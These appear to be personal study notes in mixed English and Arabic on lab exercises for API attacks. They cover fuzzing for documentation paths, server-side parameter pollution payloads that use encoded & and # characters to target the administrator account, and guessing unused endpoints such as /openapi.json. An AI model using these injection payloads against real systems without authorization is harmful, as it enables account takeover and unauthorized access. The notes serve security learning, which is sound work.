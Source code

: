 ## **Exploiting an API endpoint using documentation**

do fuzzing for path dirct ex: /api/

## **Exploiting server-side parameter pollution in a query string**

fuzzing for find hidden parameter 
هتعمل كدا ازي ؟
هتجرب الطريقه التاليه 
1- inject Parameters with `%26` (URL-encoded `&`)
`username=administrator%26x=y`
لو الناتج بقا 
Parameter is not supported 
تجرب 

2-
Truncate Query with `#` is `%23` 
`username=administrator%23`

لو الناتج بقا 
"Field not specified.”
تروح تمل 
`username=administrator%26field=§x§%23`

يوجد طرق اخري
1-

```makefile
username=administrator&username=carlos

username=administrator&invalidParam=x

username=administrator;x=y

username=carlos&role=admin

7. استخدام أنواع مختلفة من الترميزات:
يمكنك محاولة استخدام ترميزات
 URL أخرى قد تكون مقبولة من قبل الخادم
  على سبيل المثال:
%25 هو الترميز لـ %، والذي يمكن استخدامه لتجربة ترميزات أخرى.

username=administrator%2523
```

## **Finding and exploiting an unused API endpoint**

1-/api/awagger

2-/openapi.json

3-using http history when detect the API

